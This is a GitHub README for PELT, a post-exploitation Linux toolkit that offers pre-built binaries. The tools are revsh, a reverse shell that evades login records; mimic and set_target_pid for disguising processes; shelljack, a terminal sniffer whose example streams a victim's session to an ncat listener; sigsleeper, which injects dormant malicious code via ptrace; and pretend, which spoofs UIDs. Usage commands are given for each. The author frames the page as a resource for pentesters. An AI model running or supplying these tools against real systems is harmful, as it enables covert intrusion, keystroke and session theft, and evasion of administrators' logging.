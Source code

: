 # PELT #

***
**What is PELT?**

_PELT_ is the Post Exploitation Linux Toolkit. It is intended as a collection of Linux user space tools designed to assist pentesters during the post-exploitation phases of their engagement. The tools appear here as pre-built binaries for easy access in the field.

These tools are each projects of mine with their own Github pages. Please refer to these project pages for full descriptions as well as source code.

***
### _revsh_ ###

_revsh_ is a reverse shell. It was designed to meet the needs of pentesters facing long engagements. The features include:

 * Full terminal support.
 * Unicode support.
 * Circumvention of the login record. (utmp / wtmp)
 * rc file support for launching recurring / cutomized commands upon login.
 * OpenSSL encryption with key based authentication baked into the binary.
 * Anonymous Diffie-Hellman encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default.
 * Cert pinning for protection against sinkholes and mitm counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

Project page: [https://github.com/emptymonkey/revsh](https://github.com/emptymonkey/revsh)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-x86_64-Linux), [i686-Linux](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-i686-Linux), [amd64-FreeBSD](https://github.com/emptymonkey/PELT/raw/master/revsh/revsh-amd64-FreeBSD)

Tarball of the keys / certs used with these binaries: [keys.tar](https://github.com/emptymonkey/PELT/raw/master/revsh/keys.tar) 

Example:

	empty@monkey:~$ ./revsh -c 

	user@target:~$ ./revsh

Note: The pre-built binaries here use the default keys provided. If you are using this anywhere sensitive, you are strongly encouraged to download the source and build your own copy. This will generate unique keys / certs. As always, your mission is only as secure as your key management process.


***
### _mimic_ ###

_mimic_ is a tool that allows a user to run a program, but have it show up in the process table as something different. The name in the process listing can be any string. _mimic_ does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/mimic)

Example:

	empty@monkey:~$ ./mimic -e "/bin/bash" -m "/sbin/getty 38400 tty0"

***
### _set_target_pid_ ###

_set_target_pid_ is a simple program that resets the Process ID (PID) numbers being issued by the system as close as possible to a target. This program is part of the _mimic_ project. This program does **not** require root privileges.

Project page:	[https://github.com/emptymonkey/mimic](https://github.com/emptymonkey/mimic)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/set_target_pid)

Example:

	empty@monkey:~$ ./set_target_pid 1

Note: The target PID is only a target. _set_target_pid_ will try to get as close as possible, but that PID may simply not be available. The PIDs smaller than 300 appear to be reserved for kernel threads. If you request a PID of '1', then look for the result around '300'. Finally, after you set the PIDs and launched your payload, don't forget to reset the PIDs again to where they were before.

***
### _shelljack_ ###

_shelljack_ is terminal sniffer. (This is similar to a keystroke logger, but it gathers all input **and** output.) _shelljack_ does **not** require root privileges (except on Ubuntu systems).

Project page:	[https://github.com/emptymonkey/shelljack](https://github.com/emptymonkey/shelljack)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/shelljack)

Example:

	empty@monkey:~$ ncat -l 192.168.1.42 9999

	user@target:~$ ./shelljack 192.168.1.42:9999 $$

Note: _shelljack_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _shelljack_ won't work on Ubuntu systems unless it is run as root. 

***
### _sigsleeper_ ###

_sigsleeper_ injects malicious code into a process that can be triggered by sending that process a signal. This type of attack is best describes as a "malicious signal handler injection with ptrace" attack. Because the injected code will sit quietly until it receives it's signal, at which point it will then launch its payload, I refer to this as "sleeper code". _sigsleeper_ does **not** require root privileges (except on Ubuntu systems).

Project page: [https://github.com/emptymonkey/sigsleeper](https://github.com/emptymonkey/sigsleeper)

Pre-built binaries: [x86_64-Linux](https://github.com/emptymonkey/PELT/raw/master/sigsleeper)

Example:

	empty@monkey:~$ sigsleeper -f -e '/bin/echo Hello world!' $$
	empty@monkey:~$ kill -USR1 $$
	empty@monkey:~$ Hello world!

Note: _sigsleeper_ uses ptrace() to attach to processes. Because Ubuntu is patched specifically against this type of attack, _sigsleeper_ won't work on Ubuntu systems unless it is run as root.

***
### _pretend_ ###

_pretend_ is a very simple program that changes your UID / GIDs. _pretend_ **does** require root privileges. This program is useful for programmatically changing your UID on the fly without requiring that the UID maps to a valid account on the host. There are a class of attacks for which this tool is very nice to have available.

Project page: [https://github.com/emptymonkey/pretend](https://github.com/emptymonkey/pretend)

Pre-built binaries: [x86_64](https://github.com/emptymonkey/PELT/raw/master/pretend)

Example: 

	empty@monkey:~$ sudo pretend 5:26:103:110:50 id
	uid=5(games) gid=26(tape) groups=60(games),50(staff),103(ssh),110(kvm)


***
### A Quick Note on Ethics ###

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

